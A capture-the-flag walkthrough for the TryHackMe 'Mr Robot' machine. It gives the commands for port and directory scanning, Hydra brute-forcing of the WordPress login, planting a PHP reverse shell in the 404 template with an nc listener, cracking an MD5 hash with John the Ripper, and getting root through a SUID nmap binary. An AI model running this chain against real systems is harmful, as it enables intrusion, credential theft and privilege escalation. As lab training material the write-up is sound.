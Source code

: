 # Mr Robot CTF

Link: [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

## High-Level Overview

This is a challenge machine styled after the TV show Mr. Robot. Our goal is to get root and find three flags hidden on this machine.

## Tools Needed

* Nmap
* Gobuster
* Burp Suite
* Hydra
* PHP Reverse Shell
* NC Listener
* John The Ripper

## Walkthrough

Upon starting the machine, we can do an initial scan using `nmap` by running the command:

```bash
$ sudo nmap -sS -A -Pn -p- MACHINE:IP -vv -T4
$ sudo nmap -sU -Pn -p- MACHINE:IP -vv -T4
```

Upon completion of the scan, we have identified the following ports and services:

* 22 - port appears closed but the service running has been identified as SSH
* 80 - port open with possible HTTP service running
* 443 - port open with possible HTTPS service running

Opening a web browser we can go to `http://MACHINE:IP/80` and we can see there is a live web application.

Having identified a web application, we should run `gobuster` in order to identify some interesting pages that could leak information. We will use the command below:

```bash
$ gobuster dir -k -u http://MACHINE:IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

There were some interesting results, such as the pages `/admin` and `/robots.txt`.

On the web page `'http://MACHINE:IP/robots.txt` we find a reference to two files, `key-1-of-3.txt` and `fsocity.dic`. We can access the first file by opening `http://MACHINE:IP/key-1-of-3.txt`, and there we can see the first flag which we need in order to complete the challenge. The second file looks like a dictionary file that might prove useful later. We can download it by either opening the url `http://MACHINE:IP/fsocity.dic` or using a CLI utility such as `wget` using the command `wget http://MACHINE:IP/fsocity.dic`.

Additionally, we have identified that the application is made using wordpress and it has a login page located at `http://MACHINE:IP/wp-login.php`

Sending a login request and capturing it with `burp` we can see the contents of the form use those in crafting a command using `hydra`.

```
log=Elliot&pwd=1234&wp-submit=Log+In&redirect_to=http%3A%2F%2FMACHINE:IP%2Fwp-admin%2F&testcookie=1
```

We also need a username for this application. Seems like if we try the username `Elliot`, the login page tells us that this user exists, however it has a different password.

We will use Hydra to see if we can find the right password using brute force, by using the command below:

```bash
$ hydra MACHINE:IP -f -vV -t 8 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2FMACHINE:IP%2Fwp-admin%2F&testcookie=1:incorrect" -l Elliot -P fsocity.dic
```

Output:

```
[80][http-post-form] host: MACHINE:IP   login: Elliot   password: ER28-0652
```

Upon successfully logging in we are greeted with the wp-admin dashboard. Seems like this user is the administrator of the application.

We then proceed to examine the functionality of the web application to find a way into the server.

Checking for the version of this web application, we see that the current version is 3.4.1. This is good news for us, since this version is vulnerable to remote code execution and we can get the exploit to obtain a reverse shell from pentestmonkey [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Just need to change the `ip` variable to whatever your VPN IP is, and additionally change the `port` to a more convenient one.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'MACHINE:IP';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

On the web application, going to `Appearance` -> `Editor`, we go to the right side of the screen and click on `404 Template`. Here we remove the contents and insert our modified reverse shell.

We save the file edits, then we set up a nc listener on our attacking machine to catch incoming connection attempts after uploading the exploit.

```bash
$ nc -lvnp 80
```

We then go to the url `http://MACHINE:IP/random-string`, or anything else that would trigger a 404 response.

And now we have a reverse shell!

We then next attempt to stabilize the shell and turn it into a proper terminal using the commands below:

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=screen
# CTRL+Z
$ stty raw -echo;fg
$ nc -lvnp 80
```

Once we are connected to the machine, we can see that in the `/home/robot` directory we have a file named `key-2-of-3.txt`. This is our second flag.

We cannot access it, but we notice that in the same folder there is a file named `password.raw-md5` that contains the hash `robot:c3fcd3d76192e4007dfb496cca67e13b`.

We will save the contents to a file on the attacking machine named `hash.txt`. We will check if this is indeed an MD5 hash, and then we will let John the Ripper have a crack at it and find the password.

```bash
$ hash-identifier c3fcd3d76192e4007dfb496cca67e13b
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5
```

And we have identified the password as being `abcdefghijklmnopqrstuvwxyz (robot)`. We see that we are currently logged in as `daemon`, and with the new password we can switch users to `robot` and then we can find out the contents of the file `key-2-of-3.txt`.

```bash
$ su robot
$ cat /home/robot/key-2-of-3.txt
```

To find the final flag, we should see about escalating privileges in order to have full search permission for the file system. We will be looking for SUID binaries using the command below:

```bash
$ find / -perm +6000 2>/dev/null | grep '/bin/'
```

We can see there is a binary `/usr/local/bin/nmap` that has the SUID bit set.

We can exploit this binary using the set of commands below in order to explore the `root` folder and retrieve our last flag.

```bash
$ /usr/local/bin/nmap --interactive
# inside the nmap session we can type in the following to get a root shell
> !sh
cd /root/
cat key-3-of-3.txt
```